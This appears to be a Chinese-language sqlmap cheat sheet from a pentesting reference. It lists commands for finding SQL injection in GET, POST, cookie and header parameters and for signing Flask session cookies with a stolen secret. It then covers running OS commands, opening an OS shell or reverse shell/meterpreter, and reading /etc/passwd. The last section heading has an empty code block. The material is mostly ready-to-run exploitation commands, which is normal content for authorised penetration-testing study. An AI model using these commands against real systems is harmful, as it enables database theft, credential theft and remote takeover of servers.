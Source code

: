 ## 注入位置

### 来自 Burp/ZAP 捕获

捕获请求并创建 req.txt 文件
```bash
sqlmap -r req.txt --current-user
```
### GET 请求注入
```bash
sqlmap -u "http://example.com/?id=1" -p id
sqlmap -u "http://example.com/?id=*" -p id
```
### POST 请求注入
```bash
sqlmap -u "http://example.com" --data "username=*&password=*"
```
### 在头部和其他HTTP方法中的注入
```bash
#Inside cookie
sqlmap  -u "http://example.com" --cookie "mycookies=*"

#Inside some header
sqlmap -u "http://example.com" --headers="x-forwarded-for:127.0.0.1*"
sqlmap -u "http://example.com" --headers="referer:*"

#PUT Method
sqlmap --method=PUT -u "http://example.com" --headers="referer:*"

#The injection is located at the '*'
```
### 注入成功时指示字符串
```bash
--string="string_showed_when_TRUE"
```
### Eval

**Sqlmap** 允许使用 `-e` 或 `--eval` 在发送之前处理每个有效负载，使用一些 python 单行代码。这使得在发送之前以自定义方式处理有效负载变得非常简单和快速。在以下示例中，**flask cookie 会话** **在发送之前由 flask 使用已知的密钥进行签名**：
```bash
sqlmap http://1.1.1.1/sqli --eval "from flask_unsign import session as s; session = s.sign({'uid': session}, secret='SecretExfilratedFromTheMachine')" --cookie="session=*" --dump
```
### Shell
```bash
#Exec command
python sqlmap.py -u "http://example.com/?id=1" -p id --os-cmd whoami

#Simple Shell
python sqlmap.py -u "http://example.com/?id=1" -p id --os-shell

#Dropping a reverse-shell / meterpreter
python sqlmap.py -u "http://example.com/?id=1" -p id --os-pwn
```
### 读取文件
```bash
--file-read=/etc/passwd
```
### 使用SQLmap爬取网站并自动利用
```bash
```